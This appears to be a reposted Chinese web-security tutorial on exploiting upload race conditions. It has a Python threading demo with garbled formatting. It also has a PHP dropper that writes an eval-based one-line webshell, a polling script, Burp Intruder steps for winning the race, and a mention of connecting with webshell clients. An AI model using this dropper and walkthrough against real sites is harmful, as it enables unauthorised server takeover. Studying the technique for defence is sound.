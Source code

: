 # 条件竞争

> 原文：[https://www.zhihuifly.com/t/topic/3599](https://www.zhihuifly.com/t/topic/3599)

# 条件竞争

> 简单的说就是并行服务器并发执行了多个线程导致了意想不到的结果。同样的，WEB应用程序因为要为很多用户服务，势必要采用多线程，但是，如果种种原因导致线程间的同步机制没处理好，那么也就会导致非预期和条件竞争的漏洞。在Web安全中，大致就是检测文件后缀，不符合条件，就删除。这种方式。所以我们使用多线程并发去访问该文件。总会碰到在删除文件这个时间段之前访问到PHP文件。一旦成功访问，就说明写了一个Shell。 攻击流程逻辑大概是这样。上传shell-不断访问shell.php shell生成马.php--删除shellp.php

## 举例

> up.py

```
#-*-coding:utf-8-*-
import threading
up = 0

def Run(threads_name):

global up

read_value = up

print “up 值为-%s 或 %d” % (str(threads_name), read_value)

up = read_value + 1

def main():

threads = []

for j in range(10):

t = threading.Thread(target=Run,args=(j,))

threads.append(t)

t.start()

for i in range(len(threads)):

threads<i>.join()

print(“结束值为 %d” % (up,)) `if **name** == ‘**main**’:

main()` 
```

![image](img/9a893e2f1d352782e69acf014368b4a0.png)

## 实战中的利用

> 该系统拿到了后台地址跟管理员。后台的系统设置这里自带文件上传。但是不论是改后缀还是改格式，都会失败。

![image](img/ab06a8db5fd23f58350a5334ef8d08fc.png)

**绕过** 1.生成shell.php和bp.py

![image](img/de6a992274ee7beb12e923baeaf035de.png)

```
<?PHP echo md5(1);fputs(fopen('shell.php','w'),'<?php @eval($_POST[qwer123])?>');?> 
```

> bp.py

```
# coding:utf-8
import requests
def main():
    i=0
    while 1:
        try:
            print(i,end='\r')
            a = requests.get("http://www.0-sec.org/upload/shell.php")
            if "551207d090782423b5dce5b29c92c68d" in a.text:
                print("OK")
                break
        except Exception as e:
            pass
        i+=1
if __name__ == '__main__':
    main() 
```

打开burp.上传马。截断。发送到Intruder模块。这时候Positions里不用选择任何参数。到Payloads内。

![image](img/43120d3506ec8e1926b4ec652baec413.png)

Payloads选择为null，生成空字符。

![image](img/1bcaa6bcd97364b4aaefa489d5f4048f.png)

这时候运行bp.py，同时burpsuite开启astart attack

![image](img/d7f5b668ff88721305545b424e0dfd22.png)

偶尔会需要再提交一次。这时候请多试几次。直到bp.py显示OK为止。

![image](img/7576bb5980d62a4a6b3476eae9b6ca2a.png)

这时候已经成功了。用蚁剑菜刀就可以直接连接一句话了。

![image](img/86db8fc37d89befcb7b1b8cbe6538c85.png)